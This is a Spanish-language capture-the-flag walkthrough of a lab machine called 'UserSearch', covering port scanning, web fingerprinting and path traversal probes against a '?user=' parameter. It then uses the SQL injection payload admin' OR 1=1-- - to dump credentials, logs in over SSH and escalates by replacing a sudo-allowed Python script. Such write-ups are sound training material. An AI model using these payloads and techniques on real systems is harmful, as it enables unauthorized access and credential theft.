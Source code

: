
# Máquina UserSearch

Una vez desplegado el contenedor, haremos un primer escaneo para ver que información podemos obtener. 

```bash 
nmap -sS -p- -Pn -n --min-rate=5000 172.18.0.2 -oN fScan 
```
Obtenemos lo siguiente. Los puertos 22 y 80 están con el estado open. 

```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-09 05:13 EDT
Nmap scan report for 172.18.0.2
Host is up (0.0000080s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:12:00:02 (Unknown)
```

Se podría realizar otro escaneo con nmap pero voy a investigar el puerto 80 para ver que información puedo obtener con whatweb.

```bash
whatweb http://172.18.0.2                                
```
Ya tenemos la versión del servicio que está corriendo en el puerto 80, que es Apache 2.4.59

```bash
http://172.18.0.2 [200 OK] Apache[2.4.59], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.59 (Debian)], IP[172.18.0.2], Title[User Search]
```

Antes de buscar vulnerabilidades sobre Apache, voy a visitar la página web. Por lo que parece, tengo permitido hacer un input en el cual se busca un usuario.
Supongo que ese usuario estará guardado en una base de datos por lo que por detras estará realizando una consulta.

![Captura](https://github.com/user-attachments/assets/57a2037f-d52b-41c1-892f-615f29d5f3fc)

Para empezar introduciré una palabra cualquiera y ver cual es la respuesta. 

![fsd](https://github.com/user-attachments/assets/59abe1c5-b6a3-4c00-bae1-d9e6751e9b66)

En la barra de búsqueda aparece un parámetro /?user= y en la página web nos avisan de un "Unauthorized query". Hice algunas pruebas con el repeater 
de Burp enviando ?user= con valores como ../../../etc/passwd o ....//....//....//....//etc/passwd pero no era vulnerable en ese aspecto, por lo que volveré 
al input de la página principal. 

Probando nombres aleatorios las respuestas cambian entre "Unauthorized query" o "No results found" aunque probando con "admin" se obtuvo una respuesta:
![admin](https://github.com/user-attachments/assets/445aa63c-6650-4232-82b1-d70d81880513)

Por la información que dan pienso que la query será algo como:
SELECT username, password FROM tabla_usuarios WHERE username=admin  

Probando distintos inputs SQLi obtuve una respuesta con:
admin' OR 1=1-- - 
![admin](https://github.com/user-attachments/assets/b10326e3-ee1e-47aa-8f3f-566379590b03)

Como ahora tenemos usuarios y contraseñas, se probará a realizar una conexión por ssh, pues tiene el puerto open. (administrador y user1 no funcionan)

```bash
ssh kvzlx@172.18.0.2 
kvzlx@172.18.0.2's password: 
Last login: Wed Jul  9 09:53:58 2025 from 172.18.0.1
kvzlx@85e9bcd37a39:~$ 
```

Ahora que estamos dentro, tendremos que intentar escalar privilegios. 

```bash
kvzlx@85e9bcd37a39:~$ sudo -l
Matching Defaults entries for kvzlx on 85e9bcd37a39:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User kvzlx may run the following commands on 85e9bcd37a39:
    (ALL) NOPASSWD: /usr/bin/python3 /home/kvzlx/system_info.py
```

Hay un archivo .py que el usuario puede usar con permisos, por lo que trataremos de escalar privilegios con el. Ese archivo está en la carpeta personal del usuario
pero tiene los siguientes permisos > -rwxr-xr-x 1 root  root   191 May 29  2024 system_info.py 
Probaremos a borrar el archivo a ver si podemos (al ser nuestra carpeta personal, deberíamos tener total control sobre los archivos). Fue posible borrar el archivo 
por lo que crearemos otro archivo .py con el mismo nombre para intentar escalar privilegios con Python. 

![escalada](https://github.com/user-attachments/assets/0c40a8f9-cfaf-4972-9777-b8a79b62fa7f)






